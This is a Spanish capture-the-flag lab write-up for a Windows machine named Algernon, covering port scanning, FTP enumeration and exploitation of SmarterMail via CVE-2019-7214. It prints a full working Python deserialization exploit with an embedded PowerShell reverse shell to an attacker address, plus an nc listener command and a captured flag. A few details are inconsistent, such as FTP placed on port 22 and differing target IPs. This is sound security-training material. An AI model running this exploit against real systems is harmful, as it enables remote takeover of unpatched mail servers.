



---
tags:
  - http
  - reverse-shell
  - python
created: 2025-09-12
SO: Windows
IP:
Dificultad: Easy/Easy
Autor: Gonzalo Zumaquero
NOTA: "3"
---
## Información General
- **Nombre de la máquina**: Algernon
- **Dirección IP**: 192.168.144.65
- **Sistema Operativo**: Windows
- **Nivel de dificultad**: Easy
- **Fecha de resolución**: 12/08/2025
- **Autor**: Gonzalo Zumaquero Andújar

---

## Reconocimiento Inicial

### Escaneo de puertos abiertos - Nmap
```bash
sudo nmap -p- --open -T3 -Pn -sS -vvv $IP -oG allPorts  
```
**Puertos:** 80,135,139,17001,21,445,49664,49665,49666,49667,49668,49669,5040,9998
### Escaneo de servicios en los puertos descubiertos - Nmap

```bash
nmap -sCV $IP -oA services -vvv -p80,135,139,17001,21,445     
```
**Resultados de servicios**:

|  PORT | SERVICE      | VERSION                                 |                             |
| ----: | ------------ | --------------------------------------- | --------------------------- |
|    21 | ftp          | Microsoft ftpd                          | Anonymous FTP login allowed |
|    80 | http         | Microsoft IIS httpd 10.0                | OPTIONS TRACE GET HEAD POST |
|   135 | msrpc        | Microsoft Windows RPC                   |                             |
|   139 | netbios-ssn  | Microsoft Windows netbios-ssn           |                             |
|   445 | microsoft-ds | ?                                       |                             |
| 17001 | remoting     | MS .NET Remoting services               |                             |
|  9998 | http         | Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP) |                             |

---

## Enumeración

#### Servicio ftp en puerto 22
Exploración inicial en el servidor #ftp, intentando obtener todo el contenido disponible

```bash 
get -r "ftp://anonymous:anonymous@$IP"
```
Obtenidos los siguentes ficheros:

![[Algernon_ftp_loot.png]](../images/Algernon_ftp_loot.png)

Sin resultados o vulnerabilidades encontradas

#### Servicio htttp en puerto 9998

Se realiza una exploración directa con el explorador, se aplica un redirect:



---

## Explotación
- Descripción de la vulnerabilidad explotada: vulnerabilidad en **SmarterMail** que consiste en **deserialización insegura en .NET Remoting**.
- Exploit utilizado: CVE-2019-7214
- Adaptaciones realizadas al exploit: modificada ip máquina victima y puerto para revershell
- Payload generado:
``` python
#!/usr/bin/python3
import base64
import socket
import sys
from struct import pack
HOST='192.168.179.65'
PORT=17001
LHOST='192.168.45.176'
LPORT=4444
psh_shell = '$client = New-Object System.Net.Sockets.TCPClient("'+LHOST+'",'+str(LPORT)+');$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 =$sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
psh_shell = psh_shell.encode('utf-16')[2:] # remove BOM
psh_shell = base64.b64encode(psh_shell)
psh_shell = psh_shell.ljust(1360, b' ')
payload = 'AAEAAAD/////AQAAAAAAAAAMAgAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5BQEAAACEAVN5c3RlbS5Db2xsZWN0aW9ucy5HZW5lcmljLlNvcnRlZFNldGAxW1tTeXN0ZW0uU3RyaW5nLCBtc2NvcmxpYiwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQQAAAAFQ291bnQIQ29tcGFyZXIHVmVyc2lvbgVJdGVtcwADAAYIjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0IAgAAAAIAAAAJAwAAAAIAAAAJBAAAAAQDAAAAjQFTeXN0ZW0uQ29sbGVjdGlvbnMuR2VuZXJpYy5Db21wYXJpc29uQ29tcGFyZXJgMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0BAAAAC19jb21wYXJpc29uAyJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyCQUAAAARBAAAAAIAAAAGBgAAAPIKL2MgcG93ZXJzaGVsbC5leGUgLWVuY29kZWRDb21tYW5kIFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFhYWFgGBwAAAANjbWQEBQAAACJTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyAwAAAAhEZWxlZ2F0ZQdtZXRob2QwB21ldGhvZDEDAwMwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5L1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyL1N5c3RlbS5SZWZsZWN0aW9uLk1lbWJlckluZm9TZXJpYWxpemF0aW9uSG9sZGVyCQgAAAAJCQAAAAkKAAAABAgAAAAwU3lzdGVtLkRlbGVnYXRlU2VyaWFsaXphdGlvbkhvbGRlcitEZWxlZ2F0ZUVudHJ5BwAAAAR0eXBlCGFzc2VtYmx5BnRhcmdldBJ0YXJnZXRUeXBlQXNzZW1ibHkOdGFyZ2V0VHlwZU5hbWUKbWV0aG9kTmFtZQ1kZWxlZ2F0ZUVudHJ5AQECAQEBAzBTeXN0ZW0uRGVsZWdhdGVTZXJpYWxpemF0aW9uSG9sZGVyK0RlbGVnYXRlRW50cnkGCwAAALACU3lzdGVtLkZ1bmNgM1tbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XSxbU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MsIFN5c3RlbSwgVmVyc2lvbj00LjAuMC4wLCBDdWx0dXJlPW5ldXRyYWwsIFB1YmxpY0tleVRva2VuPWI3N2E1YzU2MTkzNGUwODldXQYMAAAAS21zY29ybGliLCBWZXJzaW9uPTQuMC4wLjAsIEN1bHR1cmU9bmV1dHJhbCwgUHVibGljS2V5VG9rZW49Yjc3YTVjNTYxOTM0ZTA4OQoGDQAAAElTeXN0ZW0sIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5Bg4AAAAaU3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MGDwAAAAVTdGFydAkQAAAABAkAAAAvU3lzdGVtLlJlZmxlY3Rpb24uTWVtYmVySW5mb1NlcmlhbGl6YXRpb25Ib2xkZXIHAAAABE5hbWUMQXNzZW1ibHlOYW1lCUNsYXNzTmFtZQlTaWduYXR1cmUKU2lnbmF0dXJlMgpNZW1iZXJUeXBlEEdlbmVyaWNBcmd1bWVudHMBAQEBAQADCA1TeXN0ZW0uVHlwZVtdCQ8AAAAJDQAAAAkOAAAABhQAAAA+U3lzdGVtLkRpYWdub3N0aWNzLlByb2Nlc3MgU3RhcnQoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGFQAAAD5TeXN0ZW0uRGlhZ25vc3RpY3MuUHJvY2VzcyBTdGFydChTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKAQoAAAAJAAAABhYAAAAHQ29tcGFyZQkMAAAABhgAAAANU3lzdGVtLlN0cmluZwYZAAAAK0ludDMyIENvbXBhcmUoU3lzdGVtLlN0cmluZywgU3lzdGVtLlN0cmluZykGGgAAADJTeXN0ZW0uSW50MzIgQ29tcGFyZShTeXN0ZW0uU3RyaW5nLCBTeXN0ZW0uU3RyaW5nKQgAAAAKARAAAAAIAAAABhsAAABxU3lzdGVtLkNvbXBhcmlzb25gMVtbU3lzdGVtLlN0cmluZywgbXNjb3JsaWIsIFZlcnNpb249NC4wLjAuMCwgQ3VsdHVyZT1uZXV0cmFsLCBQdWJsaWNLZXlUb2tlbj1iNzdhNWM1NjE5MzRlMDg5XV0JDAAAAAoJDAAAAAkYAAAACRYAAAAKCw=='
payload = base64.b64decode(payload)
payload = payload.replace(bytes("X"*1360, 'utf-8'), psh_shell)
uri = bytes('tcp://{}:{}/Servers'.format(HOST, str(PORT)), 'utf-8')
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((HOST,PORT)) 
msg = bytes()
msg += b'.NET'                 # Header
msg += b'\x01'                 # Version Major
msg += b'\x00'                 # Version Minor
msg += b'\x00\x00'             # Operation Type
msg += b'\x00\x00'             # Content Distribution
msg += pack('I', len(payload)) # Data Length
msg += b'\x04\x00'             # URI Header
msg += b'\x01'                 # Data Type
msg += b'\x01'                 # Encoding - UTF8
msg += pack('I', len(uri))     # URI Length
msg += uri                     # URI
msg += b'\x00\x00'             # Terminating Header
msg += payload                 # Data
s.send(msg)
s.close()
```

Este exploit:

- Payload principal (.NET deserialization)
	- Abusa de la **deserialización insegura de objetos .NET** en un servicio expuesto.
	- Al deserializar en el servidor, se ejecuta el comando `powershell.exe -encodedCommand <base64>`, lanzando la conexión inversa.
- Envío del exploit
	- Construye manualmente un mensaje con cabecera `.NET` + versión/protocolo.
	- Inserta la URI destino: `tcp://192.168.179.65:17001/Servers`.
	- Añade el payload serializado y lo envía por socket TCP al servicio. 
	- Inyecta un payload que ejecuta un **PowerShell reverse shell** hacia el atacante.
- Una vez lanzado, el atacante recibe en su máquina (`192.168.45.176:4444`) una shell de PowerShell con el contexto del proceso vulnerable.

Se pone la máquina atacante en escucha para establecer la tty:

```bash
rlwrap -cAr nc -lvnp 4444
```

Finalmente se obtiene acceso con una shell remota:



---

## 🏁 Flags
- root.txt → 4c91467137515cd6a1f0afb90b36a913

**Capturas de pantalla**:



---
## Lecciones aprendidas
- Técnicas nuevas descubiertas: lanzar una rshell mejorada con rlwrap
- Errores cometidos y cómo evitarlos en el futuro:
	- Documentación debería estar en inglés
	- No he seguido un método de análisis con procedimientos
	- No he capturado la shell desde el inicio